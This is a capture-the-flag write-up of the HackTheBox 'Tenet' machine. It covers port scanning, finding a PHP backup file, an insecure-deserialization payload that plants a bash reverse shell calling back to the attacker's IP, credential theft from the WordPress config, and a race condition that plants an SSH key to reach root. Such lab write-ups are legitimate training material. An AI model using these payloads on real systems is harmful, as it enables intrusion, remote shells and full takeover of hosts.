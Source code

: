 ```yaml
---
title: "Tenet - HackTheBox"
layout: single
excerpt: "This machine is of medium difficulty, I liked the intrusion much more than the escalation, for the intrusion I managed to download a .bak file that had the code of the page, seeing it I realized that I was dealing with an insecure deserialization in PHP, I serialized malicious code and uploaded it to the server, for the escalation I had to include my public key before it was copied to known_hosts."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/124811978-5c67e080-df63-11eb-9379-d161423b49a6.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/125662338-fd8b3b19-3a48-4fb0-b07c-86c047265082.png"
categories:
  - HackTheBox
tags:
  - deserialization attack
  - WordPress
  - SSH
---
```


![image (15)](https://user-images.githubusercontent.com/69093629/124811978-5c67e080-df63-11eb-9379-d161423b49a6.png)

I started by doing a scan with *Nmap* of the ports and services that the machine has open.

```bash 
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sS --min-rate=5000 -p- -v -Pn -n 10.10.10.223 -oG allPorts
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:15 CEST
Initiating SYN Stealth Scan at 15:15
Scanning 10.10.10.223 [65535 ports]
Discovered open port 22/tcp on 10.10.10.223
Discovered open port 80/tcp on 10.10.10.223
Completed SYN Stealth Scan at 15:16, 13.01s elapsed (65535 total ports)
Nmap scan report for 10.10.10.223
Host is up (0.087s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.16 seconds
           Raw packets sent: 65595 (2.886MB) | Rcvd: 65535 (2.621MB)
``` 

It has two ports open, the first one is for SSH and the second is a web server that runs on its default port, I did another scan to see the version of each service.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ nmap -sC -sV -p22,80 10.10.10.223 -oN targeted                  
Starting Nmap 7.80 ( https://nmap.org ) at 2021-06-13 15:16 CEST
Nmap scan report for tenet.htb (10.10.10.223)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
| 256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_ 256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.00 seconds
```

**Nmap** reported that I was facing a **WordPress**, I wanted to verify that, so I used "WhatWeb".

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ whatweb http://10.10.10.223/                                                                                   
http://10.10.10.223/ [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.223], Title[Apache2 Ubuntu Default Page: It works]
```

"WhatWeb" did not report it to me, but it was indeed a WordPress, I also did a "Fuzzing" with "Gobuster" to see if I could find any potential directories.

```bash
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ gobuster dir -u "http://10.10.10.223/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.223/
[+] Threads:        20
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/06/13 15:18:35 Starting gobuster
===============================================================
/wordpress (Status: 301)
Progress: 2467 / 220562 (1.12%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/06/13 15:18:45 Finished
===============================================================
```

I was able to confirm that it was a WordPress, I went to the page to see what was there.

![Captura de pantalla (551)](https://user-images.githubusercontent.com/69093629/121888429-437b5f00-cd18-11eb-8fbc-6124a90535a7.png)

It seems that "Virtual Hosting" was being applied and it was not pointing to the domain that the host is hosting, look at the source code and **tenet.htb** is the domain that the host was pointing from.

![Screenshot (552)](https://user-images.githubusercontent.com/69093629/121809327-ac9d9c80-cc5c-11eb-86ec-86d08fb0ff60.png)

I just included it in */etc/hosts* to point to the host and be able to see what I had.

![Screenshot (553)](https://user-images.githubusercontent.com/69093629/121809395-e53d7600-cc5c-11eb-96a8-f48f9f4990ba.png)

Now I could see what it really contained.

![Screenshot (554)](https://user-images.githubusercontent.com/69093629/121809429-09995280-cc5d-11eb-8196-1d61333f3fbc.png)

I found a potential user.

![Screenshot (556)](https://user-images.githubusercontent.com/69093629/121810092-b5dc3880-cc5f-11eb-9c75-65a03d80cc77.png)

I wanted to try it in WordPress since it allows you to enumerate users.

![Captura de pantalla (557)](https://user-images.githubusercontent.com/69093629/121810121-d73d2480-cc5f-11eb-8d43-8f2577c303a7.png)

The user was valid, I thought about using brute force, but I wanted to investigate the page further, I also saw this comment that caught my attention.

![Screenshot (525)](https://user-images.githubusercontent.com/69093629/121810193-1ec3b080-cc60-11eb-9e2b-5cf7e51df2ec.png)

Trying different things, I came to the conclusion that **sator** is a subdomain of **tenet.htb**, I included it in */etc/hosts*.

![Screenshot (558)](https://user-images.githubusercontent.com/69093629/121810525-84fd0300-cc61-11eb-9ae0-81f2499e2876.png)

In the comment I also mentioned something about PHP along with sator, I tried to join them and see if it was a PHP file, apparently it was, this is what I had.

![Screenshot (559)](https://user-images.githubusercontent.com/69093629/121810575-c097cd00-cc61-11eb-9343-1315250f0b4e.png)

The comment was talking about a "backup", so I decided to try adding a **.bak** to the **sator.php** file and it downloaded a file.

![Screenshot (560)](https://user-images.githubusercontent.com/69093629/121810801-7cf19300-cc62-11eb-8b51-214000faa57a.png)

I made a cat to see its contents.

![Screenshot (561)](https://user-images.githubusercontent.com/69093629/121810890-c4781f00-cc62-11eb-858a-9d3d04939eb0.png)

Apparently it was the source code of **sator.php**, this was going to allow me to rather plan the next step of the intrusion, what the code does is receive an input from the arepo parameter and deserializes it, this was an insecure deserialization attack by *PHP* like a house, now what I had to do was create the serialized malicious code so that in the deserialization it executes my malicious statement in *PHP*, in this case a reverse shell by netcat.

This is the PHP code I used for serialization.

```php
┌─[root@parrot]─[/home/wackyhacker/Desktop]
└──╼ php --interactive
php > class DatabaseExport {
php > public $user_file = 'shell.php';
php > public $data = '<?php shell_exec("bash -c \'bash -i >& /dev/tcp/10.10.16.5/443 0>&1\'"); ?>'; }
php > print urlencode(serialize(new DatabaseExport));
```

Once serialized I introduced it into the "arepo" input (**http://10.10.10.223/sator.php?arepo={serialize_code}**)

![Screenshot (562)](https://user-images.githubusercontent.com/69093629/121811486-d8248500-cc64-11eb-8952-d1bb204c05f7.png)

And I gave myself a shell via netcat.

![Screenshot (563)](https://user-images.githubusercontent.com/69093629/121811527-fe4a2500-cc64-11eb-9b57-35ba4ddc8005.png)

I did a TTY treatment and tried to view the "user" flag but I didn't have permissions, I had to become the user neil.

![Screenshot (568)](https://user-images.githubusercontent.com/69093629/121811909-330aac00-cc66-11eb-8df0-6212cfa8fb17.png)

I remembered I was dealing with a WordPress, so I found and viewed its configuration file which contains the password.

![Screenshot (566)](https://user-images.githubusercontent.com/69093629/121811799-c2638f80-cc65-11eb-8424-6a3229250d21.png)

I tried authenticating as neil and it worked.

![Screenshot (567)](https://user-images.githubusercontent.com/69093629/121811843-f048d400-cc65-11eb-8cd8-69c4e0a8808c.png)

<hr>
<h1 align="center"><b>ESCALADA DE PRIVILEGIOS</b></h1>

I looked at the "flag", now all that was missing was the privilege escalation, I did a ```sudo -l``` to see if something could be executed as the ROOT user and I found a script.

![Screenshot (569)](https://user-images.githubusercontent.com/69093629/121812543-867df980-cc68-11eb-8464-ef7c9e43149e.png)

I catned the absolute path with ```xargs``` to see what it did.

![Screenshot (570)](https://user-images.githubusercontent.com/69093629/121812621-cba22b80-cc68-11eb-9977-c543435c1d0d.png)

What the script does is create an **id_rsa.pub** key and host it in */tmp/ssh-{**XXXXX**}->*(**random characters**) and then copy the contents of the file to **known_hosts**. If we have the ability to include our public key in */tmp* before it is copied to **known_hosts** we can start SSH as the ROOT user. To do this I used the following command in a window authenticated in SSH as the user neil.

```bash
neil@tenet~$ while true; do echo "{SSH_PUBLIC} | tee /tmp/ssh* > /dev/null; done"
```

![Screenshot (571)](https://user-images.githubusercontent.com/69093629/121813113-eaa1bd00-cc6a-11eb-8235-9326d8776daf.png)

And in another window with SSH as the user neil I gave the script execute permissions and ran it recursively a few times.

![Captura de pantalla (572)](https://user-images.githubusercontent.com/69093629/121813150-03aa6e00-cc6b-11eb-8d89-c1c7fb70cb0c.png)

```bash
neil@tenet~$ sudo ./usr/local/bin/enableSSH.sh
```

and...

![Captura de pantalla (573)](https://user-images.githubusercontent.com/69093629/121813339-e1fdb680-cc6b-11eb-8add-2755686ea960.jpg)



